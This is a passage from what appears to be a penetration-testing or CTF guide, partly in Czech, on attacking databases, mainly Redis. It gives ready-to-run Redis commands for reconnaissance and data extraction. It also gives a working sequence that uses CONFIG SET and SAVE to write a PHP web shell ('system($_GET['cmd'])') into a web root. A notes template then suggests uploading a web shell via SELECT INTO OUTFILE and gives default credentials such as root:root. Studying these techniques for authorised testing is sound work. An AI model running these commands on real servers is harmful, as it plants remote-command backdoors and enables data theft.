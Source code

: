 ### Redis Tactical Approach
```redis
# Information gathering
INFO
CONFIG GET *
KEYS *

# Data extraction
GET key_name
HGETALL hash_key
LRANGE list_key 0 -1

# File operations (if permissions allow)
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename shell.php
SET mykey "<?php system($_GET['cmd']); ?>"
SAVE
```

## Systematic Documentation

### Pro každou database zaznamenej:
```
Database Type: MySQL
Version: 5.7.32
Access: root:password
Privileges: FILE, CREATE, INSERT, SELECT, UPDATE, DELETE
Interesting databases: 
- webapp_db (user credentials)
- config_db (API keys)
- backup_db (old passwords)
File access: YES (/var/www/html/ writable)
Command execution: NO
Next steps: Upload web shell via SELECT INTO OUTFILE
```

## Context-Specific Strategies

### CTF Database Patterns
- **Intentionally weak configs** - root:root often works
- **Hidden tables/databases** - ctf_flags, admin_panel
- **Staged data** - flags in specific tables
- **Injection points** - obvious SQL injection opportunities

### Production-Like Scenarios
- **Defense in depth** - multiple authentication layers
- **Privilege separation** - limited user permissions
- **Audit logging** - activity monitoring
- **Network segmentation** - database isolation
